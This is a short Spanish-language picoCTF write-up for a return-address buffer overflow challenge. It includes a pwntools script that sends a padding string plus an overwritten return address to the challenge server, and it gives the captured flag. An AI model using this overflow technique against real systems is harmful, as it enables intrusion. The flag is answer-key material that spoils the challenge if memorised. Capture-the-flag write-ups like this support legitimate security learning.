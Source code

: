 ## Descripcion
Control the return address
Additional details will be available after launching your challenge instance.

## Pistas
(None)

## Solucion
Analizar el código fuente del problema
Encontrar el tamaño de buffer necesario para desbordarlo
Crear un sript para introducir el valor necesario para desbordar el buffer y obtener la bandera
```bash
from pwn import *
p=remote('saturn.picoctf.net',58180)
overflow='AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08'
print(p.recvuntil(':'))
p.sendline(overflow)
p.interactive()
```

## Bandera
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}

## Notas



